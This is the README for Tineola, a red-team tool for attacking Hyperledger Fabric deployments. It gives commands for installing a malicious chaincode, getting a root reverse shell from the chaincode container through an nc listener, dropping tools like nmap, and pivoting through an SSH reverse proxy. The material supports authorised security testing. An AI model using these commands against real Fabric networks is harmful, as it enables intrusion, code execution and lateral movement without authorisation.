

# Introducing Tineola

**Read the [Whitepaper](https://github.com/tineola/tineola/raw/master/docs/TineolaWhitepaper.pdf)**



Tineola is a red team tool for interfacing with **Hyperledger Fabric** deployments, networks, and chaincodes.
Tineola is designed to work in as many configurations as possible, and require only the bare minimum configuration to get started.
Tineola also ships with *tineolacc*, special chaincode for performing evil peer attacks.

This tool was originally released on Aug 12, 2018 at DefCon 26 by [Stark Riedesel](https://github.com/starkriedesel), [Parsia Hakimian](https://parsiya.net), Koen Buyens, and Travis Biehn.


# Installing Tineola
Tineola requires NodeJS 8.x or newer.
1. git clone https://github.com/tineola/tineola
2. cd tineola; npm install
3. cd bin; ./tineola.js

Tineola will load a `.tineola-rc` file from the current directory (if it exists) upon loading and execute any commands found within.

# Getting Started
Tineola is an interactive command-line application with commands split into modules. The following is a list of common actions and the associated Tineola commands. A complete list of commands can be obtained by using the `help` command. Command syntax can be displayed with the `-help` flag.

#### Authenticating to a CA server for the first time (aka Enrollment)

```
tineola> ca-set https://ca.example.com:7050

tineola> user-set admin

tineola> ca-enroll adminpw ExampleOrgMSP
```

After these commands, the admin user has been enrolled into Tineola's keystore. Subsequent use of Tineola with the same CA server and user will not need re-enrollment. Simply using the `user-set admin` is sufficient for loading local user keys.

#### Connecting to a peer and listing existing channels

```
tineola> user-set admin

tineola> peer-set grpcs://peer1.example.com:7051

tineola> peer-list-channels
```

#### Connecting to a channel and show last 20 blocks

```
tineola> user-set admin

tineola> per-set grpcs://peer1.example.com:7051

tineola> channel-set testChan

tineola> channel-history --last 20
```

#### Query/Invoke existing chaincode

Querying refers to calling a chaincode function and receiving a response, but without ordering the transaction. The result is a "Read-only" chaincode call.

Invoking refers to calling a chaincode function and ordering the response which allows it to be read & write.

Both actions use the `channel-query-cc` Tineola command with or without the `--invoke` flag.

Invocation requires an orderer to be set.

Note: invoking requires the endorsement policy to be met, whereas querying does not.

```
tineola> user-set admin

tineola> peer-set grpcs://peer1.example.com:7051

tineola> channel-set testChan

tineola> channel-query-cc ccName ccFuncName

tineola> orderer-set grpcs://orderer1.example.com:7050

tineola> channel-query-cc --invoke ccName ccFuncName
```

#### Installing the Tineola chaincode

Most commands in the "tineola" module require the "tineolacc" chaincode to be installed to the peer.

Note that this action requires a **peer administrator** certificate to be accomplished and be acceptable to the channel endorsement policy.

```
tineola> user-set peerAdmin

tineola> channel-set testChan

tineola> tineola-install
```

#### Reverse shell from the Tineola chaincode

Start a tcp listener on the Tineola machine (`10.0.0.5` in this example)
```
nc -l 31337
```

Use Tineola to launch the chaincode
```
tineola> user-set admin

tineola> channel-set testChan

tineola> tineola-shell 10.0.0.5:31337
```

The tcp listener should be given a root shell within the chaincode container. This container is a bare Ubuntu image. Use `apt update` and `apt install ...` to download packages if the peer is internet connected. If the peer is not internet connected, the `tineola-http-drop` command can be used to drop useful binaries like nmap.

#### Creating a reverse proxy with the Tineola chaincode

It may be useful to pivot through the chaincode container to access hidden network services such as CouchDB containers or other peers.
The following assumes the Tineola machine is at `10.0.0.5`, has ssh installed and running.
The Tineola chaincode uses private key authentication to connect over ssh back to the Tineola machine.
An allowed ssh private key should be present at `~/tineola-ssh-key` for tineola to use.

Note: make sure to disallow this key after using Tineola.

Tineola makes no effort to encrypt or otherwise hide this key during or after use by the chaincode.
This key will likely be present on the chaincode container indefinitely.
Keys can be generated using `ssh-keygen` and installed to `~/.ssh/authorized` keys.
The username below "user" should be changed to match the username of the tineola machine.
The target should be in the form `IP:PORT` and is `10.10.0.100:1234` in the example below.

```
tineola> user-set admin

tineola> user-set channel-set testChan

tineola> peer-set grpcs://peer1.example.com:7051

tineola> tineola-ssh-proxy 10.10.0.100:1234 10.0.0.5 user ~/tineola-ssh-key
```

#### Using Tineola with Burp or another HTTP-base application proxy/scanner

It may be useful to connect Tineola to an application scanner or proxy for ease of use when testing chaincode.
Further, many Fabric deployments will use chain data in web applications upstream, making web application scanners great for detecting web vulnerability originating from chaincode.

```
tineola> user-set admin

tineola> peer-set grpcs://peer1.example.com:7051

tineola> channel-set testChans

tineola> orderer-set grpcs://orderer1.example:7050

tineola> tineola-http-proxy
```

Next, configure the HTTP scanner to use the port opened locally (default: `localhost:8888`).
The format of HTTP requests should be:

``` json
POST /ccName/funcName HTTP/1.1
HLF-Invoke: yes

["arguments","as", "json"]
```

The `HLF-Invoke` header controls whether or not to send the request for ordering.
If `HLF-Invoke` is set to "no" the query will be made read only but responses can still be collected from the chaincode.
The orderer is not needed to be configured if invoking is disabled.

## License
This software is released by Synopsys under the [MIT license](LICENSE).
